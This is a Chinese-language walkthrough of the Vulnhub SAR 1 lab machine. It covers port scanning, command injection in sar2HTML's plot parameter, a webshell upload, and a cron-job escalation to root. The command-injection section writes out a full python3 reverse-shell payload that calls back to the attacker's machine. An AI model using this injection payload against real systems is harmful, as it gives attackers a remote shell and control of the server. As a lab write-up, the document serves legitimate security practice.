 ```yaml
---
layer: article
title: Vulnhub	425 SAR 1
tags: pentest vulnhub writeup
---
```


考点：文件上传、命令执行、定时任务

靶机链接：<https://www.vulnhub.com/entry/sar-1,425/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| SAR        | 10.0.2.12 |



## 初步打点

### 端口扫描

```bash
$ export $tip=10.0.2.12
$ sudo nmap -v -A -p- $tip
Scanning 10.0.2.12 [65535 ports]
Discovered open port 80/tcp on 10.0.2.12
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
```



### WEB测试

看来要硬钢web应用了

![1](https://static.iihack.com/vulnhub/425/1.PNG)

查看phpinfo

![2](https://static.iihack.com/vulnhub/425/2.PNG)

查看robots.txt

![3](https://static.iihack.com/vulnhub/425/3.PNG)

尝试访问sar2HTML作为二级目录

![4](https://static.iihack.com/vulnhub/425/4.PNG)





### 漏洞发现

搜一下sar2ascii.tar发现

https://www.exploit-db.com/exploits/47204 

## 获得权限

### 靶机测试

#### 思路一 命令执行

按照https://www.exploit-db.com/exploits/47204 执行命令

![5](https://static.iihack.com/vulnhub/425/5.PNG)

antsword连接成功

![6](https://static.iihack.com/vulnhub/425/6.PNG)

使用python直接反弹端口失败了，可以替换`python3 python3.5 python3.6 python3.87 python3.8 python3.9`等等，例如这台靶机使用`python3`成功反弹

```http
http://10.0.2.12/sar2HTML/index.php?plot=;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.15",444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### 思路二 文件上传

另外可以点击new直接上传webshell，对应目录是`/sarDATA/uPLOAD/`

```http
http://10.0.2.12/sar2HTML/sarDATA/uPLOAD/2.php
```

antsword连接成功

## 提权

[linpeas.sh](https://www.iihack.com/pages/tools/linpeas.sh.html)跑了遍发现定时任务

![7](https://static.iihack.com/vulnhub/425/7.PNG)

### 定时任务

修改定时任务的文件，每隔五分钟执行

![8](https://static.iihack.com/vulnhub/425/8.PNG)

静静等待，获得root权限shell

![9](https://static.iihack.com/vulnhub/425/9.PNG)





